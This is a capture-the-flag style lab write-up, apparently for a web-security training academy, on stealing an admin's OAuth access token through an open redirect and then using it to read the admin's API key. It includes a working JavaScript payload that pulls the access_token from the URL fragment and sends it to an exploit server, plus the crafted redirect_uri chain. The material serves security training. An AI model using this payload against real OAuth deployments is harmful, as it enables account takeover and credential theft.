

# Stealing OAuth access tokens via an open redirect

**Date:** 09, August, 2021

**Author:** Dhilip Sanjay S

---
## Task 

- This lab uses an OAuth service to allow users to log in with their social media account.

- Flawed validation by the OAuth service makes it possible for an attacker to leak **access tokens** to arbitrary pages on the client application.

- To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account.

- Use the access token to obtain the **admin's API key** and submit the solution using the button provided in the lab banner.

- **Note:** You cannot access the admin's API key by simply logging in to their account on the client application.

- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

- You can log in via your own social media account using the following credentials: `wiener:peter`.

---

## Solution

### API Key endpoint

- Before sending the payload to the admin, we need to find out the end point in the OAuth server which gives the API key.
- On capturing the requests in Burp, we can find that `/me` end point of the OAuth server gives the API key:


### Finding Open redirect


**Note:** These can be tried to check Flawed Redirection URI.

1. Replace with the exploit server's URL.
    - Error: `redirect_uri_mismatch`

2. Add the exploit server's URL as the second `redirect_uri`:
    - Error: `redirect_uri parameter must not be provided twice`


- Check the blog posts for open redirection.
- On clicking next, there is an GET request made to `/post/next?path=/post?postId=8`.
- Replace the path variable to the exploit site: `/post/next?path=https://exploit-acae1f131edfaacd80c50e6001d800ff.web-security-academy.net/`

- We have an Open Redirect on the Blog site. 

### Delivering the exploit

- File at `/exploit/` endpoint. We need to extract eh token from the URL parameter.

```html
<script>
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');
if(token)
window.location='/?'+ token;
else{
window.location = "https://oauth-ac501fb51e75aa5a804f0e74022b0046.web-security-academy.net/auth?client_id=cp42ogp10dybhn65r1rl6&redirect_uri=https://ac461f041eeeaa2b80930e3b000b00f9.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-acae1f131edfaacd80c50e6001d800ff.web-security-academy.net/exploit&response_type=token&nonce=1909767560&scope=openid%20profile%20email"
}
</script>
```


- Initially I tried with iframe and the script. But it didn't work. Only if the URL has access_token, then the conversion to `/?` must take place.
- Instead one can make use of ngrok.



### Access Token

- We get the access token in the logs of the exploit server.



### API Key

- Now in the OAuth flow - `/me` request, replace the **Bearer** token with admin's token.
- You'll get the API key. Submit it to solve the lab!

